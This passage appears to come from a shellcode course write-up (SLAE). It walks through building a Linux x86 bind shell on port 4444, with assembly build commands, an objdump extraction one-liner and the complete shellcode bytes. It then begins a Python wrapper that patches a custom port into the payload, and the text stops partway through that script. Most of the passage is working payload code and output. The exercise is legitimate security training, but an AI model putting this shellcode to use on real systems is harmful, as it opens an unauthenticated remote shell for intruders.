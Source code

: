 We can compile and link code with:
```
nasm -f elf32 bind.nasm -o bind.o
ld -z execstack -o bind bind.o  -m elf_i386
```

And when we run it, we can confirm that application is indeed listening on port 4444 and provides shell to whoever connects to listening port.

![bind shell](https://smarinovic.github.io/assets/img/slae_00002.png)


We can use objdump to get shellcode out:

```
objdump -d bind |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc9\x51\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x89\xc3\x66\xb8\x69\x01\xb2\x16\xcd\x80\x31\xc0\xb8\x6b\x01\x00\x00\x89\xfb\xb1\x02\xcd\x80\x31\xc0\xb8\x6c\x01\x00\x00\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x31\xff\x89\xc7\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

And when we put it is skeleton C program, we can also confirm it works with netstat:

```
gcc -fno-stack-protector -z execstack -m32 skeleton.c -o bind_shell
```
![opcode test](https://smarinovic.github.io/assets/img/slae_00004.png)


## Wrapper ##
Last task was to make port argument easily configurable. Suggested way is to create wrapper. To create wrapper, we need to find where port number is located. Port number is 4444 which is presented as hex (little endian format): \x11\x5c. When we know the location of port, we can split shell code in pre-port part and post-port part. Python script generates hex representation of given port number and combines all three parts (pre-port, port and post-port part of shell code) in new shell code.  

```
import sys

shell1 = "\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xb2\\x06\\xcd\\x80\\x89\\xc7\\x31\\xc9\\x51\\x51\\x66\\x68"
port = "\\x11\\x5c"
shell2 = "\\x66\\x6a\\x02\\x89\\xe1\\x89\\xc3\\x66\\xb8\\x69\\x01\\xb2\\x16\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6b\\x01\\x89\\xfb\\xb1\\x02\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6c\\x01\\x89\\xfb\\x31\\xc9\\x31\\xd2\\x31\\xf6\\xcd\\x80\\x31\\xff\\x89\\xc7\\xb1\\x03\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xfe\\xc9\\xcd\\x80\\x75\\xf4\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"

if len(sys.argv) != 2:
   print 'Usage: wrapper.py <port>'
   sys.exit(-1)

else:
   port_number = sys.argv[1]             # read port number sent as argument

   try:
      port_number = int(port_number)
      port_number = hex(port_number)
      port_num = port_number.replace("0x","")

      if len(port_num) < 4:
         port_num = "0" + str(port_num)

      port_num1 = str(port_num[:2])
```